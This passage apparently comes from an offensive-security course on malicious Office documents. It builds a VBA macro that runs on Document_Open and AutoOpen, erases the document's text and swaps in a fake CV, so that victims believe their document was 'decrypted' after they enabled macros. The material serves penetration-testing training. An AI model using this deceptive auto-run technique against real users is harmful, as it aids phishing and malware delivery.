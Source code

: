 ```
ActiveDocument.Content.Select
```

> Listing 29 - Select the entire range of the ActiveDocument

With the content of the ActiveDocument selected, we can call _Selection.Delete_[4](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_74-4) to delete it.

```
Selection.Delete
```

> Listing 30 - Delete text of current Word document from VBA

Now that the text is deleted, we can insert the fake CV. We'll reference the AutoText entries from the _AttachedTemplate_[5](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_74-5) of the ActiveDocument. This gives us access to all of the _AutoTextEntries_[6](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_74-6) where we can choose our inserted text named "TheDoc".

To insert the text into the document, we'll invoke the _Insert_[7](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_74-7) function to insert the text in the document. _Insert_ takes two arguments. The first sets the location of the insert and the second sets the formatting in the inserted text, which we will leave as the default _RichText_. We can combine this into a VBA one-liner (which displays in the listing below as two lines):

```
ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
```

> Listing 31 - Insert text from AutoText gallery

Now that we have reviewed all the components of this macro, let's put everything together. To review, we use _Document\_Open_ and _AutoOpen_ to guarantee that the macro will run when the document is opened and the user enables macros. When the macro runs, the _SubstitutePage_ procedure selects all the text on the page, deletes it, and inserts our fake CV. The goal of this is to trick the victim into believing that they have decrypted our document.

We are now able to put together the final macro that performs text replacement ("decryption"):

```
Sub Document_Open()
    SubstitutePage
End Sub

Sub AutoOpen()
    SubstitutePage
End Sub

Sub SubstitutePage()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
End Sub
```
